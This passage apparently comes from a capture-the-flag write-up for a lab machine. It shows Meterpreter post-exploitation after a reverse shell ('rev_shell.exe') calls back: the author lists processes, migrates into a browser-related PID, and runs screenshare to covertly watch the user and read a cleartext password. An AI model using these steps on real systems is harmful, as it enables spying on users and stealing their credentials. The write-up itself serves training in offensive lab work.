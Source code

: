 Nice, we got a callback and a shell. Using the `ps` command, we will now identify a process executed by the other user and migrate.

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User           Path
 ---   ----  ----                         ----  -------  ----           ----
 0     0     [System Process]
 
...[snip]...

 1008  656   svchost.exe
 1016  2084  msedge.exe                   x64   1        ACUTE\edavies  C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
 1028  656   svchost.exe
 1100  656   svchost.exe
 1308  656   svchost.exe
 1400  656   MsMpEng.exe
 1420  656   svchost.exe
 1448  656   svchost.exe
 1524  5668  rev_shell.exe                x64   0        ACUTE\edavies  C:\Utils\rev_shell.exe
 1688  656   svchost.exe                  x64   1        ACUTE\edavies  C:\Windows\System32\svchost.exe
 1712  4     Memory Compression
 1960  656   svchost.exe
 1968  656   svchost.exe
 1992  2084  msedge.exe                   x64   1        ACUTE\edavies  C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
 2084  3736  msedge.exe                   x64   1        ACUTE\edavies  C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
```

Here, **msedge.exe** is a safe bet. We just need to use the `migrate` command and the target PID. Then, we can execute `screenshare` and start spying on the user.


```bash
meterpreter > migrate 3736
[*] Migrating from 1524 to 3736...
[*] Migration completed successfully.
meterpreter > screenshare 
[*] Preparing player...
[*] Opening player at: /var/www/html/VYLgFLQr.html
[*] Streaming...
```

The streaming will be available locally at the address specified by the Meterpreter shell:
- http://localhost/VYLgFLQr.html

After a few minutes, we can see that the user is running multiple command in a PowerShell shell, which seems to contain a cleartext password for the **imonks** user.
